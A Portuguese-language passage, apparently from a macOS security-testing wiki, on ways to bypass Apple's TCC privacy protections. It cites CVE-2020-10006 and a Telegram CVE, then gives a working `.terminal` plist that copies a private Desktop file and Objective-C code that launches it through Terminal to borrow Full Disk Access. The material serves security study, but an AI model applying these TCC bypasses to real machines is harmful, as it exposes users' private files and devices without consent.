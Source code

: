```xml
```
Para mais informações sobre como explorar isso facilmente, [verifique o relatório original](https://wojciechregula.blog/post/how-to-rob-a-firefox/).

### CVE-2020-10006

O binário `/system/Library/Filesystems/acfs.fs/Contents/bin/xsanctl` tinha as permissões **`com.apple.private.tcc.allow`** e **`com.apple.security.get-task-allow`**, o que permitia injetar código dentro do processo e usar os privilégios TCC.

### CVE-2023-26818 - Telegram

O Telegram tinha as permissões `com.apple.security.cs.allow-dyld-environment-variables` e `com.apple.security.cs.disable-library-validation`, então era possível abusar disso para **acessar suas permissões**, como gravar com a câmera. Você pode [**encontrar o payload no relatório**](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/).

## Por invocações abertas

É possível invocar aberturas em sandboxed&#x20;

### Scripts do Terminal

É bastante comum dar ao terminal **Acesso Total ao Disco (FDA)**, pelo menos em computadores usados por pessoas de tecnologia. E é possível invocar scripts **`.terminal`** usando isso.

Os scripts **`.terminal`** são arquivos plist como este com o comando a ser executado na chave **`CommandString`**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
    <key>CommandString</key>
    <string>cp ~/Desktop/private.txt /tmp/;</string>
    <key>ProfileCurrentVersion</key>
    <real>2.0600000000000001</real>
    <key>RunCommandAsShell</key>
    <false/>
    <key>name</key>
    <string>exploit</string>
    <key>type</key>
    <string>Window Settings</string>
</dict>
</plist>
```
Uma aplicação poderia escrever um script de terminal em um local como /tmp e executá-lo com um comando como:
```objectivec
// Write plist in /tmp/tcc.terminal
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```
## Por montagem

